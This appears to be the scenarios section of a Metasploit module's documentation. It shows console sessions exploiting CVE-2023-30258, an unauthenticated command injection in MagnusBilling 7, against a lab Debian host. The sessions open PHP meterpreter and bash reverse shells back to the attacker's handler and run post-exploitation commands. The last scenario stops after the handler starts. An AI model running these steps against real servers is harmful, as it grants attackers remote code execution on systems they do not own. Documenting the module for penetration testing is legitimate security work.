## Scenarios
###  MagnusBilling 7 on Debian 12.2 - PHP with payload php/meterpreter/reverse_tcp
```shell
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set rhosts 192.168.201.34
rhosts => 192.168.201.34
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.1 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.34
[+] Deleted LfsCVIttNL.php
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.34:46230) at 2023-10-24 10:26:47 +0000

meterpreter > getuid
Server username: asterisk
meterpreter > sysinfo
Computer    : debian
OS          : Linux debian 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64
Meterpreter : php/linux
meterpreter >
```
###  MagnusBilling 7 on Debian 12.2 - Unix Command with payload cmd/unix/reverse_bash
```shell
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set target 1
target => 1
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 2.1 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.8:4444 -> 192.168.201.34:46396) at 2023-10-24 17:09:45 +0000

uname -a
Linux debian 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64 GNU/Linux
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
pwd
/var/www/html/mbilling/lib/icepay
```
###  MagnusBilling 7 on Debian 12.2 - Linux Dropper with payload linux/x64/meterpreter/reverse_tcp
```shell
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set target 2
target => 2
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
```